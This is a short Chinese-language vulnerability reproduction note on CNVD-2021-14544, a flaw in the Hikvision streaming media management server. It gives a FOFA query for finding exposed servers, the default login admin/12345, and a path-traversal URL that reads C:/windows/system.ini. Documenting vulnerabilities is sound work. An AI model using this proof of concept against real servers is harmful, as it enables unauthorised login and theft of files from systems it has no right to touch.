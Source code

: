 # HIKVISION 流媒体管理服务器 后台任意文件读取漏洞 CNVD-2021-14544

## 漏洞描述

杭州海康威视系统技术有限公司流媒体管理服务器存在弱口令漏洞，攻击者可利用该漏洞登录后台通过文件遍历漏洞获取敏感信息

## 漏洞影响

> [!NOTE]
>
> HIKVISION 流媒体管理服务器

## FOFA

> [!NOTE]
>
> title="流媒体管理服务器"

## 漏洞复现

登录页面如下， 默认账号密码为 **admin/12345**

![](http://wikioss.peiqi.tech/vuln/hiv-5.png)

POC如下，访问如下Url下载 system.ini文件

```
http://xxx.xxx.xxx.xxx/systemLog/downFile.php?fileName=../../../../../../../../../../../../../../../windows/system.ini
```

![](http://wikioss.peiqi.tech/vuln/hiv-6.png)

成功读取 **C:/windows/system.ini**

